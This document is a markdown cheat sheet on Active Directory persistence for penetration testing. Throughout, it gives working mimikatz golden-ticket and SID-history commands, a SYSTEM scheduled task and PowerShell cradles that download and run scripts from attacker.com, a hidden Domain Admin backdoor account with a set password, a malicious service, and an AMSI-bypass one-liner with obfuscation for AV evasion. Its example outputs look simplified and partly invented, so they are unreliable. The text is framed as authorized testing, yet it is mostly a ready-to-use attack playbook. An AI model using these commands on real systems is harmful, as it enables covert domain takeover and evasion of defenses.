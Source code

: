 # Persistence in Active Directory Penetration Testing

## Overview
Persistence involves establishing mechanisms to maintain access to the AD environment even if credentials are reset or vulnerabilities are patched.

## Detailed Methods and Techniques
- **Golden Ticket**:
  - **Technique**: Create a forged Kerberos TGT for persistent access.
  - **Execution**: Use `mimikatz` to generate a golden ticket.
    ```bash
    mimikatz # kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-1234567890-0987654321-123456789 /krbtgt:aad3b435b51404eeaad3b435b51404ee /ptt
    ```
    **Example Output**:
    ```
    [*] Golden ticket injected into session
    ```
    - **Purpose**: Maintain Domain Admin access without valid credentials.
- **Scheduled Tasks**:
  - **Technique**: Create a scheduled task to execute a malicious payload.
  - **Execution**: Use `schtasks`.
    ```bash
    schtasks /create /tn Backdoor /tr "powershell -ep bypass -c IEX((New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1'))" /sc daily /ru SYSTEM
    ```
    **Example Output**:
    ```
    SUCCESS: The scheduled task "Backdoor" has successfully been created.
    ```
    - **Purpose**: Ensure persistent code execution as SYSTEM.
- **Backdoored Accounts**:
  - **Technique**: Create a hidden AD account with administrative privileges.
  - **Execution**: Use PowerShell.
    ```powershell
    New-ADUser -Name backdoor -AccountPassword (ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force) -Enabled $true
    Add-ADGroupMember -Identity "Domain Admins" -Members backdoor
    ```
    **Example Output**:
    ```
    User backdoor created and added to Domain Admins
    ```
    - **Purpose**: Maintain a secret admin account.
- **SID History Injection**:
  - **Technique**: Inject a privileged SID into an account’s SID history.
  - **Execution**: Use `mimikatz`.
    ```bash
    mimikatz # sid::patch /sid:S-1-5-21-1234567890-0987654321-512
    ```
    **Example Output**:
    ```
    [*] SID history modified for user
    ```
    - **Purpose**: Grant Domain Admin privileges to a low-privilege account.
- **Service Creation**:
  - **Technique**: Create a malicious service for persistent execution.
  - **Execution**: Use `sc`.
    ```bash
    sc \\192.168.1.20 create Backdoor binPath= "C:\Windows\Temp\backdoor.exe" start= auto
    ```
    **Example Output**:
    ```
    [SC] CreateService SUCCESS
    ```
    - **Purpose**: Run a malicious binary on system startup.

## Exploitation Methods
- **Golden Ticket**:
  - **Technique**: Use the forged TGT to access any domain resource repeatedly.
  - **Execution**: Inject the ticket with `mimikatz` (as shown above).
    - **Purpose**: Persistent access despite password changes.
- **Backdoor Account Exploitation**:
  - **Technique**: Use the backdoor account to authenticate to AD services.
  - **Execution**: Use `xfreerdp` with backdoor credentials.
    ```bash
    xfreerdp /u:backdoor /p:P@ssw0rd123 /v:192.168.1.10
    ```
    **Example Output**: RDP session opens as backdoor user.
    - **Purpose**: Maintain persistent administrative access.

## AV/AMSI Evasion Techniques
- **Obfuscated Payloads**:
  - **Technique**: Obfuscate persistence scripts to evade AMSI.
  - **Execution**: Use `Invoke-Obfuscation`.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {New-ADUser -Name backdoor -AccountPassword (ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force) -Enabled $true} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Evade AMSI detection during account creation.
- **In-Memory Execution**:
  - **Technique**: Execute persistence scripts in memory.
  - **Execution**: Use `Invoke-Expression`.
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/backdoor.ps1')
    ```
    - **Purpose**: Avoid AV detection by not writing to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI via memory patching.
  - **Execution**:
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
    ```
    - **Purpose**: Prevent PowerShell script scanning.
- **Encrypted Communication**:
  - **Technique**: Use HTTPS for remote script delivery.
  - **Execution**: Host scripts on an HTTPS server.
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('https://attacker.com/backdoor.ps1')
    ```
    - **Purpose**: Evade network-based AV/EDR monitoring.

## Tools
- **Mimikatz**: Golden ticket and SID history attacks (`kerberos::golden`, `sid::patch`).
- **PowerShell**: Account creation and task scheduling (`New-ADUser`, `schtasks`).
- **BloodHound**: Identify persistence opportunities via AD relationships.
- **sc**: Service creation.

## Best Practices
- Ensure persistence mechanisms are authorized for testing.
- Document all persistence methods for remediation recommendations.
- Remove backdoors after testing to avoid unintended access.
- Use obfuscation and encryption to evade AV/AMSI.